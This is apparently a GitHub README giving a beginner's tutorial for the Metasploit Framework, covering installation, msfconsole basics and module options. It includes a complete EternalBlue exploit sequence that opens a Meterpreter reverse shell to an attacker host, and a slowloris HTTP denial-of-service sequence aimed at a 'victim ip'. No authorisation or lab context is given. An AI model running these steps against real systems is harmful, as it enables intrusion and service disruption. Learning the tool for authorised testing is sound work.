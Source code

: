 # Metasploitable-Framework

#### [Read](../manual/msfconsole.txt) Metasploitable-Framework manual

## Installation

### On Kali Linux
Metasploit comes pre-installed on Kali Linux. To update it, run:
```bash
sudo apt update
sudo apt install metasploit-framework
```
## Getting Started
1. Start the Metasploit console:
```
msfconsole
```
2. Check the status of the database:

```bash
db_status
```
- If the database is not connected, start it with(Not necessary):

```bash
msfdb init
```

## Basic Command
- Search for modules: Use the __search__ command to find exploits, payloads, or auxiliary modules.
```
search <keyword>
```
example:
```
search windows
```
- Use a module: Select a module using the __use__ command.
```
use <module_path>
```
Add from the search results.
example:
```
use exploit/windows/local/ipass_launch_app
```
- Show options: Display the required options for the selected module.

```
show options
```
- Set options: Configure the options for the module.
```
set <option_name> <value>
```
- LHOST = Attacker Machine
- ROSTS = Victim   Machine
  ```
  set RHOSTS 192.168.1.10
  ```
  - set the requirements
- Now ready to exploit 
```
exploit
```
---
# Using Exploits
1. Search for an exploit:

```bash
search <exploit_name>
```
2. Select the exploit:

```bash
use <exploit_path>
```
3. Set the required options (e.g., RHOSTS, RPORT, PAYLOAD).

4. Run the exploit:

```bash
exploit
```
Example:

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.5
exploit
```
---
# use slowloris to http dos attack
 ```
 msf6 > use dos/http/slowloris
 ```
 ```
 msf6 > set RHOST <victim ip>
 ```

 ```
 msf6 > exploit
 ```
 